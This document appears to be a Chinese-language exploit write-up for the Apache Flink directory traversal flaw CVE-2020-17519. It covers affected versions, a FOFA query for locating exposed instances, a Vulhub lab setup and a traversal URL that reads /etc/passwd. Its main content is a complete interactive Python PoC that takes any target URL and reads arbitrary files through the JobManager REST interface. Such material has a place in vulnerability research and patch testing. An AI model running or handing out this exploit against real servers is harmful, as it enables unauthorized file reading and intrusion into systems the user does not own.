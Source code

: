 # Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021年01月06日，360CERT监测发现`Apache Flink`发布了`Apache Flink 目录穿越漏洞`的风险通告，漏洞编号为`CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过`REST API`目录遍历，可造成`文件读取/写入`的影响。

Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。

参考：

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## FOFA

```
app="Apache Flink"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

![image-20220223182227651](./images/202202231822762.png)

## 漏洞复现

查看/etc/passwd：

```plain
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20220223182245983](./images/202202231822055.png)

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

![image-20220211111729412](./images/202202111117492.png)

